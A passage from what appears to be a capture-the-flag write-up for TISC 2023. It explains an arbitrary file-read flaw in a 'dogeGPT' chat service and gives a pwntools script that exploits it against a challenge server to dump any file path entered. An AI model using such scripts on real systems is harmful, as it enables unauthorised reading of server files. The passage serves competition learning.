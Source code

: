 After seeing the first solves roll in, though, I decided to come back and take a fresh look at the problem.

Immediately, I noticed that the program actually exhibited a second vulnerability. In particular, the program does not check whether file paths are loaded in `vec` before naively printing the contents of the file with path `vec[0]`, assuming that it should be `help.txt`. 

In other words, we can first send `end chat` to empty out `vec`, then send the path of any file on the remote server as input. This will end up as `vec[0]`. Finally, sending `help` will dump the target of that file as a response. I wrote a script to help with this:


```python
from pwn import *
from hashlib import md5
import requests

context.log_level = "critical"

s = requests.Session()
f = input("File path: ").rstrip()
s.post("http://13.251.171.1/index.php", {"uname": "amarok"})
r = s.post("http://13.251.171.1/start.php")
port = int(r.content.split(b"port: ")[1].split(b"\t")[0].decode("ascii"))

h = md5(bytes(f, "ascii")).hexdigest()
print(f"md5: {h}")
target = int(h[12:16], 16)
val = target - 0xd06e
if val < 0:
	val += 0x10000

p = remote("13.251.171.1", port)
p.sendlineafter(b"dogeGPT!", b"end chat")
p.sendlineafter(b"chat...", bytes(f, "ascii"))
p.sendlineafter(b"progress", b"help")
p.interactive()
```

![10_5](/assets/tisc-2023/10_5.png)
